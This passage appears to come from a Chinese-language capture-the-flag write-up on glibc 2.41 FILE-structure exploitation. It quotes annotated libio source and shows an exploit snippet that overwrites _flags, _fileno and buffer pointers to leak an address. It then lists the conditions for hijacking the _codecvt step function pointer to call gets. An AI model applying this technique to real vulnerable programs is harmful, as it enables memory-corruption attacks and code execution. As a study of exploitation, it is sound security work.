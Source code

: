 ```c {hide=true}
  else if (fp->_IO_read_end != fp->_IO_write_base) // ---> fake: fp->_IO_read_end == fp->_IO_write_base
    {
      off64_t new_pos
	= _IO_SYSSEEK (fp, fp->_IO_write_base - fp->_IO_read_end, 1);
      if (new_pos == _IO_pos_BAD)
	return 0;
      fp->_offset = new_pos;
    }
  count = _IO_SYSWRITE (fp, data, to_do); // --->
```

先调一次rewind初始化FILE结构体中的各个指针，而后修改对应字段，爆破4位（1/16的概率）实现泄露。

综上，构造如下：

```python
rewind()
edit(2, 0, p16(0x2c80)) # _flags
edit(1, 0x38, p8(1)) # _fileno
edit(1, 0xb0+1, p8(0x40)) # _wide_data->_IO_write_base+1
edit(1, 0x10+1, p8(0x40)) # _IO_write_base
edit(1, 0x8+1, p8(0x40)) # _IO_read_end
rewind()
```

泄露地址之后，write函数可以在已知偏移任意地址写了，还剩1次4bytes，2次3bytes，2次2bytes的write，3次rewind的机会。



## exploit

再回到rewind的调用流程，可以发现一条调用到结构体内函数指针的路径：

[`_IO_wfile_seekoff`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L743)
  -> [`adjust_wide_data`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L876)
    -> [`__libio_codecvt_in`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L568)
      -> [`DL_CALL_FCT`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/iofwide.c#L180)
  -> [`_IO_SYSSEEK`](https://elixir.bootlin.com/glibc/glibc-2.41/source/libio/wfileops.c#L929)

需要构造的条件：

* `fp->_IO_read_end = fp->_IO_buf_base + 0x980`

  > 此时`offset == 0`，`fp->_offset == 0x980`，需达成`start_offset = (fp->_offset - (fp->_IO_read_end - fp->_IO_buf_base)) <= offset`的条件

* `fp->_codecvt->__cd_in.step->__shlib_handle == NULL`

* `fp->_codecvt->__cd_in.step->__fct = gets`

* `fp->_codecvt->__cd_in.step = &fake_step`

```c {hide=true}
off64_t
_IO_wfile_seekoff (FILE *fp, off64_t offset, int dir, int mode)
{
  ...
  /* If destination is within current buffer, optimize: */
  if (fp->_offset != _IO_pos_BAD && fp->_IO_read_base != NULL
      && !_IO_in_backup (fp))
    {
      off64_t start_offset = (fp->_offset
                              - (fp->_IO_read_end - fp->_IO_buf_base));
      if (offset >= start_offset && offset < fp->_offset) // ---> fake: offset >= start_offset
	{
	  _IO_setg (fp, fp->_IO_buf_base,
		    fp->_IO_buf_base + (offset - start_offset),
		    fp->_IO_read_end);
	  _IO_setp (fp, fp->_IO_buf_base, fp->_IO_buf_base);
```